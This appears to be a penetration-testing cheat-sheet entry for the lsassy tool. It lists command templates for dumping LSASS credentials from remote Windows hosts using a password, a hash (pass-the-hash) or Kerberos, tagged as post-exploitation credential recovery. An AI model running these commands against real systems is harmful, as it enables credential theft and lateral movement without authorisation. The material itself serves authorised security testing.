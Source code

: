 # Lsassy

## Lsassy basic usage with password (ip or range)
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -p <password> <ip>
```

## Lsassy basic usage with hash (ip or range)
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -v -u <user> -H <hash> <ip>
```

## Lsassy basic usage with kerberos (ip or range)
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -k <ip_range>
```
